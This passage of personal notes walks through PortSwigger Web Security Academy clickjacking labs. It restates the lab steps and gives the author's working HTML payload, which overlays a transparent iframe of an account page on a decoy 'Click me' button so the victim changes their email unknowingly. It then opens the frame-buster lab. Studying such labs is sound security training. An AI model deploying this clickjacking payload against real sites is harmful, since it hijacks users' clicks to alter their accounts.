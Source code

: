     - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 400px and 80px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
4. Click **Store** and then **View exploit**.
5. Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
6. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
7. Change the email address in your exploit so that it doesn't match your own.
8. Deliver the exploit to the victim to solve the lab.

- we have to trick vitctim to click on the update email buttom but with our info instead
	![](Pasted%20image%2020241216181718.png)
```html
<style>
   iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }

    div {
     position:absolute;
     top: 457px;
     left: 75px;
     z-index: 1;
    }
</style>

<div>Click me</div>

<iframe src="https://0a1600150327536484f84221000300b3.web-security-academy.net/my-account/?email=paein@test3.com"></iframe>
```

## 3. Clickjacking with a frame buster script
This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`
